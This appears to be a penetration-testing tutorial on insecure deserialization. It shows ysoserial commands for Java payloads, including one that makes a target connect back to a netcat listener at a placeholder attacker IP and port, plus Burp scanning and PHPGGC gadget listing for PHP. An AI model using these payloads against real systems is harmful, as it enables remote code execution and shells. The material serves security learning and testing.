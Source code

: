 This tool can be used to generate POC payloads. Syntax Below

```
java -jar ysoserial.jar [payload-type] [command] > output-file
```

All payloads can be seen by viewing the help menu

```
java -jar ysoserial.jar
```

Example payload to connect back to a netcat listener.

```
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'nc [your-ip] [your-port]' > payload.bin
```

#### Deserialization in Web Applications

**Using BurpSuite**

You can use the below Burp extension that performs scanning on the web application.

```
https://github.com/federicodotta/Java-Deserialization-Scanner
```

After you add the extension, you can use it while you are at the \[intruder]. It shows up on its own tab.

#### PHP Insecure Deserialization

In php, the deserialization is performed with \[unserialize()] function. If data passed to this function isn't serialized, it allows for a multitude of attacks such as command injection, SQL injection, DOS,etc.

**PHPGGC: PHP Generic Gadget Chain Tool**

Link Below

```
https://github.com/ambionics/phpggc
```

This tool generates payloads if you don't have access to the source code of the web application. Depending on the framework of the web application, the syntax for generating payload differs. You can view all supported frameworks with the below command

```
./phpggc -l
```

The figure below shows a snippet of the output !\[\[phpggc-1.jpg]] For every Gadget there is the type of exploitation. Afte determining the framework and type of exploitation you want to conduct, you can get more info about it with the command below

```
./phpggc -i monolog/rce1
```

This will display information about the gadget and its exploit along how to generate a payload by supplying the required parameters. After selecting the gadget and exploit type, we generate its payload.
